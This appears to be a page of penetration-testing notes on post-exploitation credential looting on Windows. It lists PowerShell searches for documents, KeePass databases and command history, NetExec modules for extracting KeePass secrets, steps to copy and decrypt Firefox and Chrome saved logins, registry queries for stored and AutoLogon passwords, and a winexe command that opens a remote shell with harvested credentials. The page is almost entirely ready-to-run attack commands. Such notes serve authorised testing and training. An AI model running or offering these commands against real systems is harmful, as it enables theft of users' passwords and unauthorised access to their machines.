 {% tabs %}
{% tab title="LOOT" %}
<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># Loot, Search Files
</strong>Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.xlsm,*.doc,*.docx,*.docm,*.eml,*.bat,*.ini,*.ps1 -File -Recurse -ErrorAction SilentlyContinue
# KEEPASS
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction 
SilentlyContinue
nxc smb &#x3C;ip> -u user -p pass -M keepass_discover
nxc smb &#x3C;ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse - ErrorAction SilentlyContinue # XAMPP
Get-ChildItem -Hidden -Path C:\Users\USER\Desktop\ # Hidden files 
If GUI > Event Viewer > Search Script Block Loggin events (applications > Windows > PowerShell > Operational > Event ID 4104

# PowerShell
Get-History
(Get-PSReadlineOption).HistorySavePath
# Just like Linux bash, Windows powershell saves all previous commands into a file called ConsoleHost_history. This is located at 
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
</code></pre>

[#keepass](../../enumeration/passwords.md#keepass "mention")
{% endtab %}

{% tab title="Browsers" %}
{% code overflow="wrap" %}
```bash
# https://thehacktoday.com/how-to-retrieve-decrypt-stored-passwords-in-firefox-chrome-remotely/
#VALID FOR BROWSER FIREFOX AND CHROME, FIREFOX EXAMPLE
Download important firefox files (logins.json, cert9.db, key4.db, cookies.sqlite...)
git clone https://github.com/unode/firefox_decrypt.git
python3 firefox_decrypt.py $FOLDER

https://github.com/AlessandroZ/LaZagne
https://github.com/S3cur3Th1sSh1t/PowerSharpPack
https://github.com/V1V1/SharpScribbles
https://github.com/lclevy/firepwd
```
{% endcode %}
{% endtab %}

{% tab title="Registry" %}
{% code overflow="wrap" %}
```bash
# Search for keys and values that contain "pass" or "password":
reg query HKLM /f pass /t REG_SZ /s
reg query HKCU /f pass /t REG_SZ /s
# Search also for privileged usernames on the local machine/domain
reg query HKLM /f adminuser /t REG_SZ /s

# Find AutoLogon credentials:
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
# On Kali, use the winexe command to spawn a command prompt running with creds
winexe -U 'admin%password' //MACHINE_IP cmd.exe
```